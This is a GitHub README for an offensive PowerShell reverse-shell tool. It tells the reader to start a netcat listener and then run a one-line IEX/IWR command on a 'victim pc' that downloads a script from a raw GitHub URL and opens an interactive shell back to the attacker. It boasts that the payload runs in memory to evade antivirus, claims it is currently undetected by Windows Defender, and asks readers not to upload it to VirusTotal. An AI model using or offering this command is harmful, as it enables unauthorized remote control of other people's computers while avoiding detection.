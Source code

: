 <img src="https://img.shields.io/badge/PowerShell-%E2%89%A5%20v3.0-blue">

# INSTRUCTIONS : - 
<br>
1.) Run [nc -nlvp 'port'] on your terminal to start up a listener.
<br>
2.) Open powershell on the victim pc and type <br> 
IEX (IWR 'https://raw.githubusercontent.com/anonymous300502/powershell_payload/main/test.ps1' -UseBasicParsing) | Invoke-DopeShell "IP" "PORT" 

## This will spawn a interactive shell with the target pc and run in memory to evade AV 
### Currently undetectable by the latest updated version of windows defender on Win 11 ( last tested on 17:00 IST June 13th 2024) 

Please dont upload the script on virus total :) 
